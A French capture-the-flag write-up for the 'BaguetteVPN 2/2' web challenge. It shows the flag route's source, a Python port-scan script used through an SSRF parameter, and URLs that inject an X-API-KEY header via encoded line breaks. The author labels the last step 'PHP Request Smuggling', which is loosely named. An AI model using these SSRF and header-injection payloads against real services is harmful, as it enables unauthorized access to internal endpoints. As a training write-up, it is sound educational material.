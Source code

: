 # BaguetteVPN 2/2
On se retrouve pour la partie la plus compliquée du challenge.<br/>
## Résolution
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/>
Toujours rien, en regardant l'énoncé du challenge. Je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et la requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
On passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment j'ai immédiatement su qu'il s'agissait d'une faille de type PHP Request Smuggling.<br/>
Brêve explication de cette faille.<br/>
Il faut savoir que dans ce genre de situations, il y a 3 acteurs.<br/><br/>
**•** L'attaquant<br/>
**•** Le proxy/firewall<br/>
**•** Le serveur web<br/><br/>
Cette faille à beaucoup de variantes, mais principalement elle surgit de cette manière.<br/><br/>
**•** L'attaquant se connecte au proxy, il envoie ABC<br/>
**•** Le proxy l'interprète comme AB, C, et le rédirige vers le serveur<br/>
**•** Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)<br/>
**•** Proxy caches r(A) pour AB, r(BC) pour C<br/><br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` à l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante.<br/>
```
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
On constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Ma première idée consistait à retaper le corps de la requête directement dans l'URL en faisant attention aux sauts de ligne.<br/>
Je tente de push le header X-API-KEY.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0, ce qui bloque la requête.<br/>
Je calcule le length de la key.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header avec la taille 32.<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
Et là je vois le flag.<br/>
